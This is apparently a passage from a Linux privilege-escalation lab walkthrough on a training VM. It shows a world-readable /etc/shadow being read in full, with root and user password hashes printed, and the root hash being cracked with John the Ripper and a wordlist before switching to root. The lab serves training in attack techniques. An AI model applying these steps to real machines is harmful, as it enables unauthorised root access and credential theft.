 ```
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# rm /tmp/rootbash
rootbash-4.1# exit
exit
```

`No answer needed`

## Weak File Permissions - Readable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-readable:

`ls -l /etc/shadow`

View the contents of the /etc/shadow file:

`cat /etc/shadow`

Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Switch to the root user, using the cracked password:

`su root`

**Remember to exit out of the root shell before continuing!**

```
user@debian:~/tools/mysql-udf$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
user@debian:~/tools/mysql-udf$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
user@debian:~/tools/mysql-udf$ 
```
